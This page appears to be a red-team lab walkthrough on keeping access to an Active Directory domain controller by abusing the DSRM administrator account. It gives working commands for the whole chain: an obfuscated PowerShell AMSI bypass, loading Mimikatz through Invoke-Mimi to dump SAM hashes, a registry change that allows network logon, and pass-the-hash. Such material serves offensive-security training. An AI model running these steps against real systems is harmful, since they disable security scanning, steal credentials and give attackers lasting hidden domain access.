 # 👽 Abuse the DSRM credential for persistence

{% hint style="info" %}
### What is Directory Services Restore Mode (DSRM)?

Directory Services Restore Mode (DSRM) is a Safe Mode [boot](https://www.techtarget.com/searchwindowsserver/definition/boot) option for [Windows Server](https://www.techtarget.com/searchwindowsserver/definition/Microsoft-Windows-Server-OS-operating-system) [domain controllers](https://www.techtarget.com/searchwindowsserver/definition/domain-controller). DSRM enables an administrator to repair, recover or restore an Active Directory ([AD](https://www.techtarget.com/searchwindowsserver/definition/Active-Directory)) database. Restarting a [domain](https://www.techtarget.com/whatis/definition/domain) controller in DSRM takes it offline so it functions only as a regular server.
{% endhint %}

We can persist with administrative access on the DC once we have Domain Admin privileges by abusing the DSRM administrator. With the domain admin privileges obtained earlier, run the following commands on the DC to open a PowerShell remoting session. As always, remember that we could use other tools like SafetyKatz, BetterSafetyKatz

```
$sess = New-PSSession dcorp-dc  
Enter-PSSession -Session $sess  
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
exit 
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we need to laod Invoke-Mimi on the session, let's run this from the local machine

```
Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $sess
```

Then once it's done we'll enter the session and run the lsadump::lsa command:

```
Enter-PSSession -Session $sess
Invoke-Mimi -Command '"token::elevate" "lsadump::sam"'
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The DSRM administrator is not allowed to logon to the DC from network. So we need to change the logon behavior for the account by modifying registry on the DC. We can do this as follows:

```
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

Now from our local system we can just pass the hash for the DSRM administrator:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can now list all the shares of the domain controller:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
